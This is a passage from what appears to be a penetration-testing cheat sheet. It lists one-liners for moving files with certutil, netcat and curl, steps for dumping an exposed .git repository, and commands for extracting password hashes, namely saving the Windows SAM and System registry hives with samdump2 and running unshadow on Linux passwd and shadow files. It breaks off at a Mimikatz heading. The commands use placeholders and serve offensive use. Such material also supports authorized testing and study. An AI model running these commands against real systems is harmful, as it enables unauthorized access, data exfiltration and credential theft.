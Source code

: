 ```

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
```

---

## GIT

### Download .git

```
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
```

### Extract .git content

```
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

---

## HASHES

### Windows

```
reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System

samdump2 System SAM > hashes
```

### Linux

```
unshadow passwd shadow > hashes
```

---

## MIMIKATZ
